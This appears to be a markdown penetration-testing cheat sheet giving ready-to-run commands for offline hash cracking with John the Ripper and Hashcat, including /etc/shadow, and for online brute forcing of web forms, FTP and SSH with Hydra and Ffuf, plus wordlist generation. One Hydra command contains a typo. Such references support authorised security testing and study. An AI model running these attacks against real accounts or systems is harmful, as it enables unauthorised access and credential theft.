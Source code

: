 ## Password Cracking
### John The Ripper
#### Crack hash
```bash
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
```
#### Cracking `/etc/shadow`
```bash
unshadow shadow.txt passwd.txt > unshadowed.txt
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
### Hashcat

#### Crack Hash
```bash
hashcat -m hashmode_id pw_hash.txt /usr/share/wordlist/rockyou.txt
```
Learn more about hashmodes [here](https://hashcat.net/wiki/doku.php?id=example_hashes).
### Identify Hash Type
```bash
hash-identifier
```

## Brute Forcing / Dictionary Attack
### Hydra
#### HTML Form
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt target.com http-form-post "/auth/login.php:username=^USER^&password=^PASS^:Invalid username/password combination." -o results.txt -vV
```
#### HTML Form with Fail and Success String
```bash
hydra -L usernames.txt =P /usr/share/wordlists/rockyou.txt target.com -s 8080 http-form-post "/auth/login.php:username=^USER^&password=^PASS^:F=Invalid credentials:S=Login success.:H=Cookie: PHPSESSID=abcd1234" -o results.txt -vV
```
> Note: If results are not showing, such as the page only refreshes if credentials dont match, we can just use an HTML tag as follows: `F=<form name='login'`.
#### FTP
```bash
hydra -L usernames -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ftp -s 10021 -o results.txt -vV
```
> Note: We can use the `-C` option for combined credential wordlists (i.e `hydra -C combined-http-auth.txt 10.10.10.10 -s 8080 http-get -o results.txt -vV`)
#### SSH
```bash
hydra -L harry.txt -P /usr/share/wordlists/rockyou.txt -u 10.10.10.10 ssh -o results.txt -vV
```
> Note: The `-u` parameter loop around users, not passwords. Meaning Hydra would test the first password on all usernames before moving to the next password, rinse and repeat.
### Ffuf
#### Single Wordlist
```bash
ffuf -w wordlist.txt -u <http://target.com/login> -X POST -d "username=admin&password=FUZZ" -b "Cookie Value" -H "Header-Key: HeaderValue" -fc 200
```
#### Multiple Wordlist
```bash
ffuf -w wordlist.txt:USER,wordlist.txt:PASS -u <http://target.com/login> -X POST -d "username=USER&password=PASS" -b "Cookie Value" -H "Header-Key: HeaderValue" -fc 200
```
## Custom Wordlist
### Generate Password Wordlist Using Hashcat Rules
```bash
hashcat --stdout raw_pw.txt -r /usr/share/hashcat/rules/best64.rule > output.txt
```
### Generate Password Wordlist Using Cupp
```bash
cupp -i # interactive; just follow it
```
### Generate Username Wordlist Using Username-Anarchy
```bash
git clone https://github.com/urbanadventurer/username-anarchy.git

./username-anarchy Bill Gates > bill.txt
```

We can also use tools like [rsmangler](https://github.com/digininja/RSMangler) or [The Mentalist](https://github.com/sc0tfree/mentalist) to add as many alterations and permutations as possible into our wordlist.

Additionally, we can then use `sed` to further customize the generated wordlist to follow the target's password policy. For example:
```bash
sed -ri '/^.{,7}$/d' custom-password.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' custom-password.txt # remove no special chars
sed -ri '/[0-9]+/!d' custom-password.txt            # remove no numbers
```